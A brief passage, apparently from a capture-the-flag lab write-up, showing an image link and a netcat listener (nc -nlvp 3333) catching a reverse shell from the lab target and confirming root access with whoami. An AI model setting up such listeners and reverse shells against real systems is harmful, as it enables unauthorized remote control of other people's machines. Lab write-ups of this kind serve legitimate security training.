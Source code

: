 Back on my listener, I get a root shell.

{% highlight plaintext %}
root@kali:~# nc -nlvp 3333
listening on [any] 3333 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.146] 47768
whoami
root
{% endhighlight %}